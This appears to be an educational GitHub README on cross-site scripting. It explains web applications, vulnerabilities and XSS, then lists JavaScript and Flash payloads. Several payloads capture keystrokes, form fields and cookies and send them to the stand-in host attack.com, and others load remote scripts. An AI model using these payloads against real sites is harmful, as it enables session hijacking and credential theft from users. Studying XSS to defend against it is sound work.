

<p align="center"></p>

# Cross-site Scripting

    Before we start talking about Cross-site-scripting, I'd like to say that this repository is for educational purposes only, so that you can understand how this vulnerability works and how to avoid future problems with XSS.
### Web application
    Basically, a web application is a piece of software that runs in a web browser, such as Chrome, Firefox etc. Why understand what a web application is? precisely because Cross-site-scripting (XSS) is caused by flaws in web applications themselves. Like Facebook, Olx etc. 
<code> You can learn more about web application here: https://aws.amazon.com/what-is/web-application/ </code>
### Vulnerability
    Vulnerability is precisely a weakness in a web application that is exploited through bugs or the structure of the web application itself, if it has flaws, and it is in these flaws that people with malicious intentions can gain access to sensitive and important data.
<code>You can learn more about vulnerabilities here: https://owasp.org/www-community/vulnerabilities/.</code>
#### XSS
    XSS is an injection attack frequently based on JavaScript, but it can also include HTML or any type of code that our browser can execute. They inject into a web application with the focus of being executed by other users. In this way, it can send malicious code to other people who may mistakenly click on a script that captures sensitive or important information. 


### Payloads
Payloads are basically Javascript codes that we can execute on target users' computers.

Examples of payloads with **JavaScript**:

```javascript
Basic Alert Payload:
<script>alert('XSS')</script>


Redirection Payload:
<script>
    window.location.href='http://attack.com'
</script>


Form Data Capture Payload:
<script>
    document.location='http://attack.com/logger.php?data=' +    
    document.getElementById('form_id').value 
</script>

Keylogger Payload:
<script>
    document.onkeypress=function(e){
        fetch('http://www.attack.com/logger.php?k=' + e.key);
    }
</script>

AJAX Command Execution Payload:
<script>
    fetch("http://www.attack.com/log.php?data="+
    document.cookie);
</script>

```

Examples of payloads with **Flash**:
```javascript

Javascript Execution Payload:
<object data='http://www.attack.com/flash.swf'></object>

Redirection Payload (inside a .swf file):
getURL("javascript:window.location.href='http://attack.com'");

Remote Code Execution Payload (inside a .swf file):
load('http://www.attack.com/exploit.js');

```
